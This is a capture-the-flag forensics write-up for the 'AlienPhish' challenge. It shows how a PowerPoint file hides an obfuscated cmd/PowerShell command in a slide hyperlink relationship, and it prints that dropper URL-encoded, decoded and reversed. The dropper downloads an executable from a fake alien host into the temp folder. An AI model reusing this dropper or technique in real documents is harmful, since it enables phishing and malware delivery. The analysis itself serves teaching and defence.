

# **Forensics**

## 0x00 AlienPhish
---
_We were given a Microsoft Powerpoint Presentation [file](/Alien%20Weaknesses.pptx) with **.pptx** extension._

### **Solution**
---
Basically, Microsoft fies with __.*x__ extension like **.docx**, **.pptx**, **.xlsx**, etc are compressed files, that means they can be opened with any zip archive software. 

A malicious code (generally in VBA) can be hidden inside these files.

>My first step was to open this ppt file using a zip archive. You can also use **_binwalk_** to extract the data if you are using any Linux based OS, but I will stick to *WinRar*.




As I see a lot of XML files, looking at rels files makes sense as to see the relationships.


>Opening slide1.xml.rels file gives us:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

NOTE: I have only included the relevant XML code from it.
You can find the full file [here](resources/slide1.xml.rels).

>We can clearly see that it is trying to execute CMD commands. The command is url encoded, the decoded command is :

```cmd
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%""
```

>We can see `for /L%X in (122;-1;0)` reverses the string. We can use python to do the same.

```python
 x = "o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$"
 print(x[::-1])
```

It gives `"$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"`

Everything here makes sense except *some_random_string.exe*.

>Decoding it using online [base64 decoder](www.base64decode.org/) gives us the flag.

>**Flag:**
*CHTB{pH1sHiNg_w0_m4cr0s???}*
